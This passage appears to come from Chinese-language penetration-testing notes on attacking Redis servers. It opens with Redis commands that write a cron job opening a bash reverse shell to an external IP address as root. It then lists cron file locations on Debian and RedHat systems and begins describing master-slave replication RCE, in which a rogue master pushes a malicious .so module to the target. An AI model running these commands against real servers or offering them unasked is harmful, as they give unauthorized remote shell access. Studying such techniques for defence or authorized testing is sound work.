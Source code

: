 ```bash
select 5
set 1 '\n\n*/1 * * * * bash -i >& /dev/tcp/124.220.192.120/1234 0>&1\n\n'
config set dir /var/spool/cron/
config set dbfilename root
save
```

**定时任务位置**

- /etc/crontab文件

  ![image-20231014145035776](../../../images/image-20231014145035776.png)

- /etc/cron.xxx目录

  ```bash
  /etc/cron.d/
  /etc/cron.hourly/
  /etc/cron.daily/
  /etc/cron.weekly/
  /etc/cron.monthly/
  ```

  ![image-20231014145327815](../../../images/image-20231014145327815.png)

- 用户定时目录

  ```bash
  # Debian系列（Ubuntu）
  /var/spool/cron/crontabs/<username>
  
  # RedHat系列（Centos）
  /var/spool/cron/<username>
  ```

  



# 主从复制RCE

- 4.x >= Version <= 5.0.5

> 主从复制是指将一台Redis服务器的数据，复制到其他的Redis服务器。
>
> 前者称为主节点(master)，后者称为从节点(slave).
>
> 数据的复制是单向的，只能由主节点到从节点。
>
> **从节点在接收数据时，会先将自身的数据清空。**
>
> **建立主从关系只需要在从节点操作就行了，主节点不用任何操作**
>
> 主从复制RCE简单的说就是将Rouge Server（主节点）上的恶意.so文件复制到目标主机（从节点）上，从而达到RCE。

